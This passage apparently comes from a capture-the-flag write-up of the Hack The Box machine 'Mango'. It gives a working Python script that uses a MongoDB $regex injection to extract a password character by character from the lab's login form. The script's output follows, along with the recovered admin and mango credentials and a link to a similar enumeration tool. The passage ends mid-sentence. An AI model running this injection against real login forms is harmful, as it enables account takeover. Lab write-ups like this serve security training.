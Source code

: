 I adapted one script to bruteforce the password of a given account.

```python
import requests
import urllib3
import string
import urllib
urllib3.disable_warnings()

username="mango"
password=""
u="http://staging-order.mango.htb/"
headers={'content-type': 'application/x-www-form-urlencoded'}

while True:
    for c in string.printable:
        if c not in ['*','+','.','?','|','&','$']:
            payload='username=%s&password[$regex]=^%s&login=login' % (username, password + c)
            r = requests.post(u, data = payload, headers = headers, verify = False, allow_redirects = False)
            if 'Log in for ordering Sweet & Juicy Mango.' not in r.text or r.status_code == 302:
                print("Found one more char : %s" % (password+c))
                password += c
```

Let's run it for `admin` user:

```
$ python bf.py
Found one more char : t
Found one more char : t9
Found one more char : t9K
Found one more char : t9Kc
Found one more char : t9KcS
Found one more char : t9KcS3
Found one more char : t9KcS3>
Found one more char : t9KcS3>!
Found one more char : t9KcS3>!0
Found one more char : t9KcS3>!0B
Found one more char : t9KcS3>!0B#
Found one more char : t9KcS3>!0B#2
```

We can also run it for `mango`.

Finally we have 2 accounts:

- `admin` / `t9KcS3>!0B#2`
- `mango` / `h3mXK8RhU~f{]f5H`

There is even a guy that made a small
[script / tool](https://github.com/an0nlk/Nosql-MongoDB-injection-username-password-enumeration)
around this so you don't have to change your script each time.

If you try to login with a accounts you will get this message:
